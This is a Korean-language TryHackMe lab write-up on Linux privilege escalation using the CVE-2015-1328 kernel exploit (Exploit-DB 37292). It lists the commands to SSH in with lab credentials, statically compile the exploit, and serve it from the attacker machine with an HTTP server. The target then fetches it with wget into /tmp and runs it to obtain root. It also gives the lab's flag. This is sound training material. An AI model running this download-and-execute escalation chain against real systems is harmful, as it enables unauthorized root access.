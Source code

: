 ## Privilege Escalation: Kernel Exploits
> TryHackMe에 커널 익스플로잇을 이용하여 권한 상승에 관한 실습을 했습니다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.42.60
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **커널 버전**: `Linux 3.13.0-24-generic`
- **실습 일자**: 2025-04-18

---

### 2. 실습 과정

## 2.1 **SSH 접속**
- 타겟 머신에 SSH로 접근: karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.42.60
# Password1 입력 후 로그인
```

![SSH 연결 및 로그인](/screenshots/ssh_connect.png)

## 2.2 **커널 버전 확인**

- 커널 버전 확인: uname -a 명령어로 커널 버전을 확인하고, 3.13.0-24-generic 버전이라는 것을 확인하였다.

```bash
uname -a
```
![uname -a 출력](/screenshots/uname.png)

- 커널 버전이 CVE-2015-1328에 취약하다는 사실을 구글링을 통해 확인하였다.

- Exploit-DB에서 해당 취약점에 대한 37292.c 소스코드를 다운로드하였다.
- 다운로드 링크 :[Exploit-DB - CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

## 2.3 **Kali에서 SSH 서버 시작** 

```bash
systemctl start ssh
```
![SSH 서비스 시작](/screenshots/start_ssh.png)


## 2.4 **Exploit 다운로드 및 전송 (Windows → Kali)**  
- Windows → Kali로 소스 전송: Windows PowerShell의 `scp`를 통해 Kali로 소스 파일을 전송하였다. (실제 IP는 모자이크)

```bash powershell
scp D:/exploit_file/37292.c root@<MyRoot-ip>:/root
```
![SCP 전송](/screenshots/window_scp.png)


## 2.5 **Exploit 정적 컴파일**  
- `gcc 37292.c -o exploit -static` 명령어를 사용하여 정적으로 컴파일 하였다.

```bash
gcc 37292.c -o exploit -static
```
![정적 컴파일](/screenshots/compile.PNG)

## 2.6 **타겟 머신으로 Exploit 전송**  
- Kali에서 `python3 -m http.server 8000`으로 HTTP 서버를 열고, 타겟 머신에서 `wget`으로 exploit을 /tmp에 다운로드하였다.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/exploit -O /tmp/exploit
```
![wget 전송](/screenshots/http_server_wget.PNG)

## 2.7 **실행 및 루트 획득** 

- `chmod +x exploit` 후 `./exploit`을 실행하여 루트 권한을 획득하였다. 후에 `find / -name flag1.txt`로 플래그 파일 경로를 찾고, `cat /home/matt/flag1.txt`로 내용 확인하였다.

```bash
chmod +x exploit
./exploit
id
find / -name flag1.txt
cat /home/matt/flag1.txt
```
![익스플로잇 실행 및 플래그 획득](/screenshots/exploit_flag.PNG)


### 3. 최종 결과
- 루트 쉘 획득 성공 (`uid=0(root)`)
- 플래그 위치: `/home/matt/flag1.txt`
- 플래그 내용: `THM-28392872729920`



